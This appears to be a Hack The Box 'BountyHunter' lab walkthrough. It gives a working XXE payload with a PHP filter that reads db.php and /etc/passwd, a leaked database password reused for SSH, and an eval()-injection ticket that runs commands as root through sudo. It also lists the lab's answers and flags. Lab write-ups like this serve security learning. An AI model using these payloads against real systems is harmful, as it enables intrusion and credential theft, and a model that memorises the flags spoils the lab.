


# 🐧 BountyHunter — HTB


> **TL;DR** — The report form sends URL+Base64-encoded XML → **XXE** via a PHP filter leaks `db.php` and `/etc/passwd` → the DB password is reused for SSH as `development` → `sudo` lets us run a ticket validator that passes attacker-controlled input to `eval()` → arbitrary code execution as root.

**Tags:** `XXE` · `PHP filter` · `credential reuse` · `sudo` · `eval() injection`

---

## 1. What is the path to the endpoint of the web application that data is submitted to via a POST request from the form on the Bounty Report System - Beta page?

Open the site and click the **Portal** tab:


It redirects to *Bounty Report System - Beta*. Submit some data and intercept the request with Burp — it's sent to `tracker_diRbPr00f314.php`.

> **Answer:** `tracker_diRbPr00f314.php`

## 2. The data in the POST request is encoded with URL encoding and what other encoding?

Copy the `data` parameter from the request body into CyberChef:



**URL Decode** then **From Base64** returns the form fields as XML:


## 3. Looking at the data in the POST request, after URL-decoding and base64-decoding, what is the name of the data format of the data remains? 
`XML`

## 4. What is the three letter abbreviation for an attack sent in user supplied XML data where external entities are used to read files on the target?

`XXE` 

## 5. The XXE vulnerability can be validated by reading a known file on the target such as '/etc/passwd', but typically when viewing a PHP file the source code will be hidden. Can this be bypassed to view the source code of the web application PHP files using PHP filters?
`yes`

## 6. What is the 'dbpassword' value in the file 'db.php'?

Burp flagged the endpoint as XXE-vulnerable with a sample payload; I adapt it to read `db.php` through a PHP base64 filter:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY xxe19z3b SYSTEM "php://filter/convert.base64-encode/resource=///var/www/html/db.php"> ]>
<bugreport>
  <title>&xxe19z3b;</title>
  <cwe></cwe>
  <cvss></cvss>
  <reward></reward>
</bugreport>
```

Base64 + URL-encode it (all special chars), then send. The response contains `db.php` as base64:



Decoded:

```php
<?php
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

> **Answer:** `m19RoAU0hP41A1sTsq6K`

## 7. Submit the flag located in the development user's home directory.

Guessing the DB password is reused for SSH. To find a username, I abuse the same XXE to read `/etc/passwd`:


Testing users from the bottom up, the password works for `development` — SSH in and read the flag.

> `d9c361b5180baca4d61cc2f491d0f643`

## 8. What is the filename on the target that we have the ability to run as 'root' without requiring a password?


```bash
sudo -l
```

```
User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

> **Answer:** `ticketValidator.py`

## 9. Performing code analysis on the 'evaluate()' function in the Python script, which dangerous method is being used that could lead to arbitary code execution?

```python
def evaluate(ticketFile):
    for i, x in enumerate(ticketFile.readlines()):
        ...
        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))   # <-- here
                ...
```

Validation only checks the number *before* the `+`. Everything after it is attacker-controlled and reaches `eval()` unchecked — arbitrary code execution instead of simple math.

> **Answer:** `eval`

## 10. Submit the flag located in root's home directory.

The script runs as root, so I craft a ticket (`ticket.md`) that satisfies the `% 7 == 4` check, then injects code after the `+`:

```markdown
# Skytrain Inc
## Ticket to Vancouver
__Ticket Code:__
**4+__import__('os').system('cat /root/root.txt')**
```

```
development@bountyhunter:~$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
ticket.md
Destination: Vancouver
c889523f40dd6bc326eb0e4b41051742
Invalid ticket.
```

> `c889523f40dd6bc326eb0e4b41051742`

---

## 🚩 Flags

| | |
|---|---|
| **User** | `d9c361b5180baca4d61cc2f491d0f643` |
| **Root** | `c889523f40dd6bc326eb0e4b41051742` |
